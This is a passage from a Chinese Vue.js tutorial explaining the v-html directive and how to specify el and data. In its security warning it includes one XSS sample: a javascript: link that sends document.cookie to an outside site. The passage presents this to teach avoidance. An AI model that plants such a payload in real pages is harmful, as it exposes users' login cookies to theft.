 



### 1.3 v-html

v-text 和插值表达式只能渲染纯文本内容，如果要把包含 HTML 标签的字符串渲染为页面的 HTML 元素，则需要用到 v-html 指令，v-html 可以将 html 代码进行解析显示。

~~~html
<h2 id="app" v-html="msg"></h2>
    <script>
        var app = new Vue({
            el: "#app",
            data: {
                msg: "<hr/><hr/>"
            }
        })
    </script>
~~~



安全性问题：

在网站上动态渲染任意 HTML 都是非常危险的，容易导致 XSS 跨站攻击，一定要在可信的内容上使用 v-html，永远不要在用户提交的内容上。

~~~html
<div id="app">
    <div v-html="str"></div>
</div>

<script>
        const vm = new Vue({
            el: '#app',
            data: {
                str: '<a href=javascript:location.href="http://www.baidu.com?" + document.cookie>点击链接</a>',
            },
        })
</script>
~~~

> 链接跳转后，会将本站的所有 cookie （登录信息）以参数的形式传递给目标网站，目标网站接受后，可以通过 Cookie 进行强制登录







## 2. el 与 data 的写法

### 2.1 el 指定容器

在实例中指定容器，可以直接指定容器，如：

~~~js
new Vue ({
    el:'#app',
	data:{msg:'Hello'}        
})
~~~
